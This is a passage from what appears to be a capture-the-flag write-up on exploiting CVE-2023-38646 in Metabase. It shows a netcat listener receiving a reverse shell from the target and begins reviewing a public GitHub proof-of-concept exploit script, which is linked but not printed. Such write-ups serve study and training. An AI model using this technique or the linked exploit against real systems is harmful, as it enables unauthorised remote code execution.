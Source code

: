 When I send, it hangs for a second, and then at `nc` there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.233 46282
    bash: cannot set terminal process group (1): Not a tty
    bash: no job control in this shell
    b7ed0bb2dd1e:/$ 
    

### Exploit Script

#### Script Analysis

I mentioned above there were many POC scripts available on GitHub. For
example, I can grab [this
one](https://github.com/Pyr0sec/CVE-2023-38646/blob/main/exploit.py) and save
it as a file on my VM.

Taking a quick look at the script, it’s doing the same thing I did above. It
takes the URL, token, and the command to run. I don’t know why it doesn’t get
the token for me (it would be just one more request and parsing JSON, a couple
lines of Python). The script takes the input URL and builds the `validate`
endpoint, and the request:

[![image-20240313200342725](../img/image-20240313200342725.png)_Click for full
size image_](../img/image-20240313200342725.png)
